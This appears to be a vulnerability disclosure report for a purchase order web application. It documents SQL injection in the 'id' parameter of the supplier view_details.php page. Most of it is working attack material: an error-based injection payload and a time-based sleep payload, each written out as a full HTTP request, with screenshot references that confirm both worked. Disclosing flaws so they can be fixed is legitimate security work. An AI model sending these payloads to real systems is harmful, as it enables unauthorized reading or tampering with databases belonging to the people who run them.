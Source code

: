 BUG_Author:zito

Vulnerability File: /purchase_order/admin/suppliers/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 1 from(select count(*),concat(0x717273,(select (elt(333=333,1))),0x65666768,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'b'='b

```
GET /purchase_order/admin/suppliers/view_details.php?id=1%27%20and%20(select%201%20from(select%20count(*),concat(0x717273,(select%20(elt(333=333,1))),0x65666768,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)%20and%20%27b%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fd29fhrp156i09e1labjjoora0
Connection: close
```

Injection success based on errors

![image](https://github.com/zitozito1/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(10)))x) and 'c'='c

```
GET /purchase_order/admin/suppliers/view_details.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))x)%20and%20%27c%27=%27c HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fd29fhrp156i09e1labjjoora0
Connection: close
```

Server response time is 10 seconds

![image](https://github.com/zitozito1/bug_report/blob/main/sql2.png)
